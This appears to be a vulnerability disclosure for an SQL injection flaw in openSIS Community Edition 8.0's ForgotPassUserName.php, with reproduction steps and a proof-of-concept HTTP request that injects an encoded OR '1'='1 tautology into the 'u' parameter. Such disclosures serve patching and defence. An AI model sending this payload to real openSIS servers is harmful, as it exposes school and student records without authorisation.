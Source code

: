 # Vulnerability Type

SQL Injection

# Description

An SQL Injection vulnerability exists in openSIS Community Edition version 8.0 via ForgotPassUserName.php.

# PoC Report

 ## Environment Setup

 - Software Link: https://github.com/OS4ED/openSIS-Classic
 - Version: 8.0
 - Tested on: Windows 10

 ## Exploit Description

Insufficient filtering of the parameters leads to SQL injection.

 ## Steps to Reproduce

 1. Login as an admin user.
  2. Intercept and send the malicious request using a web proxy tool such as Burp Suite, ensure it includes a valid session cookie.
  3. Observe the result: 

![Image](assets/CVE-2021-40617.png)

 ## Proof Of Concept
```
GET /ForgotPassUserName.php?used_for=username&u=test%27%20OR%20%271%27%3D%271&user_type=student HTTP/1.1
Host: opensis
Connection: close
```

